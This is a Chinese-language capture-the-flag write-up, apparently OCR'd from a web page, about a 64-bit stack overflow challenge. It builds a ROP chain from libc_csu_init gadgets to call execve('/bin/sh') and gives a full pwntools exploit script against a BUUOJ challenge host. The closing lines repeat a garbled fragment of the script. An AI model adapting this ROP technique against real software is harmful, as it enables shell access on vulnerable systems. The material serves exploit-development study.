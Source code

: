 经过努力的寻找我们找到了mov rax,59用于代替pop rax，syscall本来就有，pop rdi很好找，pop rsi也有，唯独就是pop rdx找不着，但是关于rbx的gadget可以看到有一个mov rdx,r13，在libc_csu_init函数有一堆的pop寄存器的操作，我们也可以很容易找到pop r13，那么pop r13和mov rdx,r13两个一结合不就是pop rdx嘛，对吧。

但是需要注意的是，mov rdx,r13后面跟的并不是ret，所以在执行mov rdx,13这个gadget时候，要把rip及时地劫持回来。它运行到后面之后会执行call ptr[r12+rbx*8]，并且，rbx,rbp,r12~r15都是我们可以随意改的。

rbx我们置零，r12我们放在我们payload上面的其中一个地方能让它接着执行就可以了。

那么我们先写payload

```
payload=b'/bin/sh\0'*2+p64(pop_rbx_rbp)+p64(0)*2+p64(bin_sh+0x50)+p64(0)*3+p64(mov_rdx)+p64(mov_rax)+p64(pop_rdi)+p64(bin_sh)+p64(syscall) 
```

就是原本传给r12的偏移我用的是+0x48的，结果给报错了，反正这个题挺神奇的，就是感觉少了八字节的数据在里面但是好像又没少，希望有师傅能为我解答一下这个困惑，但是我一般遇到这种情况就偏移多8少8都试试看，如果是32位那就上下偏移4看看。

最后给师傅们看看结果吧

![syscall_3.png](img/9ef96f43fcddc5e2542c2063c4f96a85.png)

### exp

```
from pwn import *
p=remote('node3.buuoj.cn',28330)
main=0x0004004ED
mov_rax=0x04004E2
pop_rdi=0x4005a3
pop_rbx_rbp_r12_r13_r14_r15=0x40059A
mov_rdxr13_call=0x0400580 
syscall=0x00400517

payload=b'/ban/sh\x00'*2+p64(main)
p.send(payload)

p.recv(0x20)
rbp=u64(p.recv(8))
bin_sh=rbp-280

payload=b'/bin/sh\0/bin/sh\0'+p64(pop_rbx_rbp_r12_r13_r14_r15)+p64(0)*2+p64(bin_sh+0x50)+p64(0)*3+p64(mov_rdxr13_call)+p64(mov_rax)+p64(pop_rdi)+p64(bin_sh)+p64(syscall)
p.send(payload)
p.interactive() 
```

.recv(8))
bin_sh=rbp-280

payload=b’/bin/sh\0/bin/sh\0’+p64(pop_rbx_rbp_r12_r13_r14_r15)+p64(0)*2+p64(bin_sh+0x50)+p64(0)*3+p64(mov_rdxr13_call)+p64(mov_rax)+p64(pop_rdi)+p64(bin_sh)+p64(syscall)
p.send(payload)
p.interactive()
